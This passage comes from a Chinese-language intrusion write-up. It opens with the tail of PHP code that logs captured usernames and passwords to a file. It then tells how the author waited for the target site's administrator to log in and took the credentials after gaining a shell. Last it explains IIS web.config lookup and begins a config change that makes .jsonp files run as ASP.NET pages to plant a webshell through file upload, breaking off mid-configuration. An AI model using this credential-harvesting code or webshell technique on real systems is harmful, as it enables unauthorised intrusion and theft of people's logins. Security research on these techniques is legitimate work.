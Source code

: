     fwrite($myfile, $time . ': ' . $username . ' ' . $password . PHP_EOL);

    $fclose($myfile);

}

  

然后开始等对方工作人员登陆。。。。。。

  

 _后来确实等到了对方管理员登陆，拿到了账号密码，虽然时间上晚了一些，但是事实证明，这个一步操作还是非常必要的，因为拿到 shell
进一步拖回来代码之后发现密码的验证逻辑藏的比较深，即使控制了数据库，还原出密码还需要话一定的时间。这个时候有一个现成的账号密码对即使获取后台数据来说就是非常方便的了。_

  

控制 web.config  -> webshell的研究

 _首先简单介绍一下 web.config 配置文件，它的文本格式为 xml ，类似于 apache 的 .htaccess，可以用来配置 IIS
的解析规则、安全性、重写规则等等 。_

 _当我们访问某个页面时，web.config 的生效顺序是：当前目录的 web.config - > 当前应用程序根目录下的 web.config ->
C:\<.Net setup dir>\Config 下的 web.config -> C:\<.Net setup dir>\Config 下的
machine.config。_

 _( <.Net setup dir> __即 .net framwark 的安装目录，默认位置在
C:\Windows\Microsoft.NET\Framework\vx.xxx\Config)_

  

[修改 web.config 前务必冷静，如上所述，服务端在解析 asp、aspx
脚本之前，会递归式的查找配置，如果某个配置错误（比如配置文本格式错误、字符错误、甚至是一个空文件），都将有可能导致整个站点 500。不过好在子目录的
web.config 只会影响当前子目录，不会影响其他子目录]

  

任意文件上传可以覆盖原有文件，当前我们的需求是，通过控制 web.config ，进而拿到 webshell。这一部分有很多师傅们已经做了很多成熟的研究。

  

 **1\. 修改 web.config 配置，使服务端能够解析特定后缀**

参考链接：https://my.oschina.net/u/2357619/blog/1162509

  

这里以 .jsonp 的解析作为样例来解释一下 web.config 的配置：

  

<?xml version="1.0" encoding="UTF-8"?>

<configuration>

    <system.web>

        <compilation>

            <buildProviders>

                <add  extension=".jsonp" type="System.Web.Compilation.PageBuildProvider"/>

            </buildProviders>

        </compilation>

    </system.web>
